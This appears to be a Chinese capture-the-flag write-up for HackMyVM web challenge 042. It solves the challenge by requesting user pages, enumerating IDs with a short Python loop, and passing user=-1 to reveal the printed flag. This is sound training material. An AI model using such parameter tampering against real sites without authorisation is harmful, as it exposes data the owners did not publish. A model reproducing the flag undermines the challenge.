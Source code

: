 # Web - 042

:::note

created by || sml

⏲️ Release Date // 2022-03-07

💀 Solvers // 68

🧩 Type // web

`http://momo.hackmyvm.eu/n1lsfr4hm/`

:::

直接访问得到

```shell
┌─[randark@parrot]─[~]
└──╼ $http get http://momo.hackmyvm.eu/n1lsfr4hm/
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Fri, 02 Feb 2024 07:47:59 GMT
Server: nginx/1.18.0
Transfer-Encoding: chunked

<a href="/index.php?user=1">John</a>
<a href="/index.php?user=2">Monroe</a>
<a href="/index.php?user=3">Vault</a>
<a href="/index.php?user=4">{</a>
<a href="/index.php?user=6">Wesley</a>
<a href="/index.php?user=7">Teresa</a>
<a href="/index.php?user=8">Fredric</a>
<a href="/index.php?user=9">}</a>
```

使用脚本爬取各个页面的信息

```python
import requests

url = "http://momo.hackmyvm.eu/n1lsfr4hm/index.php?user={}"

for i in range(1, 10):
    res = requests.get(url.format(i)).text
    print(res.split("\n")[-1].replace("<br>", ""))
```

得到

```plaintext
Hello Where Are Your o_O Super Easy Flag ?
```

想复杂了，传个 `-1` 即可

```html
┌─[randark@parrot]─[~]
└──╼ $http get http://momo.hackmyvm.eu/n1lsfr4hm/index.php?user=-1
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Fri, 02 Feb 2024 08:08:27 GMT
Server: nginx/1.18.0
Transfer-Encoding: chunked

<a href="/index.php?user=1">John</a>
<a href="/index.php?user=2">Monroe</a>
<a href="/index.php?user=3">Vault</a>
<a href="/index.php?user=4">{</a>
<a href="/index.php?user=6">Wesley</a>
<a href="/index.php?user=7">Teresa</a>
<a href="/index.php?user=8">Fredric</a>
<a href="/index.php?user=9">}</a>
<br><br><br>HMV{fcknumbers}
```
